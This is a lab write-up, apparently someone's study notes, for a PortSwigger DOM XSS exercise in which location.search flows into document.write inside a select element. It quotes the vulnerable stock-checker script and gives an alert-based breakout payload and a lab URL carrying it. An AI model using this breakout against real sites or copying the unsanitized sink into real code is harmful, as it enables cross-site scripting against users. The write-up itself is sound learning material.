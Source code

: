 # DOM XSS in `document.write` sink using source `location.search` inside a select element

[Lab in PortSwigger](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

## Definition
The document.write sink works with script elements, so you can use a simple payload, such as the one below:
```javascript
document.write('... <script>alert(document.domain)</script> ...');
```
Note, however, that in some situations the content that is written to document.write includes some surrounding context that you need to take account of in your exploit. For example, you might need to close some existing elements before using your JavaScript payload. 

## Notes
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.

**Check stock JavaScript code executed when the page is loaded**
```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
// weak point - the storeId must exits, no matter what it is
if(store) {
    // any arbitrary code can be injected in this sink
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
                            
```
**Malicious URL**  
<https://0a9000f2041e17f8c07a12100072001f.web-security-academy.net/product?productId=1&storeId=Paris%22%3E%3Cscript%3Ealert(1);%3C/script%3E%3Coption%20selected=%22>

## Key Words
> xss, dom-based, dom-invader
